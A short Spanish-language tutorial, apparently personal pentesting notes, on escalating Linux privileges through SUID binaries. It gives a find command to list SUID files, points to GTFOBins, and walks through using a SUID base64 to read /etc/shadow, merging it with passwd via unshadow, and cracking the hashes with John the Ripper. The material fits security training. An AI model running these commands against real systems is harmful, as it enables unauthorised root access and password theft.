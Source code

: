 # SUID exploits

Se puede vulnerar y escalar privilegios aprovechando el flag suid o guid de un binario.

Aparte de los permisos normales de linux, se puede agregar un flag de tipo suid o guid que permite a una aplicación ejecutarse en el contexto del dueño o grupo original de un binario.

Esto es util cuando un admin no quiere darle un permiso a un usuario y decide asignarle especificamente un permiso especial al binario que es necesario para ejecutar la tarea. (por ejemplo usar find sin restriccion de permiso, pero no por eso le voy a dar root), en fin. a veces puede que este permiso temporal no se revoque y genere una vulnerabilidad. 

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Buscar suid o sgid de archivos
2. Buscar exploits disponibles en gtfobins.github.com
3. Ejecutar exploit
4. Caso de uso

## Buscar binarios vulnerables

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Esto listará archivos que tengan seteado setuid flag

## Buscar exploit disponible

Dado algun elemento de interes, buscarlo en gtfobins.github.com

![Alt text](gtfobins-suid.png)

## Explotar

Una vez encontremos algun exploit, seguir las indicaciones del exploit suid.

## Caso de uso - romper contraseñas

Por ejemplo, en el caso de base64, nos permite leer archivos como root y "manipularlo".

En este caso leeremos un archivo shadow solo accesible por root y lo volcaremos a otro para post procesar.

```
base64 "/etc/shadow" | base64 --decode > shadow
```

en ese mismo sentido, recuperamos el archivo passwd, ya que con esto podremos armar lo necesario para utilizar johntheripper.

ejecutamos unshadow 

```
unshadow passwd shadow > unshadowed
```

Aplicamos johntheripper para crackear password en base a diccionario.

```
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
```

Esto ejecutará fuerza bruta para crackear claves de usuario. 

---
Happy exploiting - Zpx